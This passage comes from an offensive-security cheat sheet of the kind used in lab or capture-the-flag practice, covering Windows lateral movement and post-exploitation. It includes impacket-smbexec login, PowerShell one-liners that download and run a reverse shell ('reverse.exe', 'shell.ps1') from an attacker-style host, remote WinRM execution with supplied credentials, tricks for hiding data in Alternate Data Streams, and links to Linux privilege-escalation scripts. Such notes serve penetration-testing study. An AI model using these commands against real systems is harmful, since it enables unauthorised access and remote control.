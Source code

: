      icacls <dir>

Connect with smbexec

     impacket-smbexec DOMAIN/user@IP

## Powershell

Running remote script directly

    PS C:> Invoke-WebRequest 'http://10.10.14.15:8000/reverse.exe' -OutFile reverse.exe
    PS C:> IEX (New-Object Net.WebClient).DownloadString(‘https://10.10.14.8/shell.ps1’)

Run WinRM commands from powershell:

    $username = 'HOST\Login'
    $password = '<PASS>'
    $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
    $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
    Invoke-Command -Credential $credential -ScriptBlock { whoami } -Computer $computer

Execute command from PowerShell

    cmd /r dir /s /b





## WTFs?

You can hide informations in a Alternate Data Stream. You can detect with smbclient:

    smbclient -U LOGIN \\\\10.10.10.178\\C\$\\ <PASS>
    > cd xxx
    > allinfo a_file
    ...
    stream: [:<STREAM_NAME>:$DATA], 15 bytes

You can [view ADS with smbclient from Linux](https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux)

    smbclient -U <LOGIN> //<IP>/<SHARE> <PASS>
    more PATH/TO/FILE:<STREAM NAME>:$DATA

Or with powershell:

    Get-Item -Path .\a_file  -Stream *
    Get-Content -Path .\a_file -Stream the_stream

# Linux

## Enumeration

 - [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
 - [linuxprivesc](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
